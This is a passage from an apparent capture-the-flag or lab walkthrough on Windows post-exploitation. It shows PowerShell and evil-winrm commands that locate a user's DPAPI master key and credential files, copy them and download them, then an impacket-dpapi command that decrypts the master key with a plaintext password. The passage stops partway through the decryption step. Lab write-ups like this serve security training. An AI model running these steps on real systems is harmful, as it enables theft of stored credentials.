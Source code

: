 2.  **Enumerate DPAPI Master Key and Credential Files (using WinPEAS/manual check):**
    The video uses WinPEAS to enumerate. Manually, these files are usually located in the user's profile under `AppData\Roaming\Microsoft\Protect\` or `AppData\Local\Microsoft\Credentials\`. Identify:

      * **DPAPI Master Key:** (e.g., in `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\<SID>\`)
      * **Credential Files (DPAPI Blobs):** (e.g., in `C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\<GUID>`)

    **Example locations (paths may vary):**

      * Master Key: `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-...\<GUID>`
      * Credential Files: `C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\`
        `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\`

3.  **Download DPAPI Files:**
    Copy the identified master key file and credential files to an accessible location (e.g., `C:\ProgramData`) on the target machine, remove their hidden attribute (`attrib -h`), and then download them using `evil-winrm download`.

    ```powershell
    # Example for master key
    copy C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-...\<GUID> C:\ProgramData\masterkey
    attrib -h C:\ProgramData\masterkey
    download C:\ProgramData\masterkey

    # Example for credential file 1
    copy C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\<GUID1> C:\ProgramData\cred1
    attrib -h C:\ProgramData\cred1
    download C:\ProgramData\cred1

    # Example for credential file 2
    copy C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\<GUID2> C:\ProgramData\cred2
    attrib -h C:\ProgramData\cred2
    download C:\ProgramData\cred2
    ```

4.  **Decrypt DPAPI Blobs with Impacket's `dpapi.py`:**
    On your attacking machine, use Impacket's `dpapi.py` script to decrypt the master key using `steph.cooper`'s password, and then use the decrypted master key to decrypt the credential blobs.

      * **Decrypt Master Key:**

        ```bash
        impacket-dpapi -masterkey <masterkey_file> -sid <steph.cooper_SID> -password 'ChefSteph2025'
        ```

          * `<steph.cooper_SID>`: Retrieve `steph.cooper`'s SID (e.g., `whoami /all` in `evil-winrm`).
            This command will output the **decrypted master key**.

      * **Decrypt Credential Blobs:**
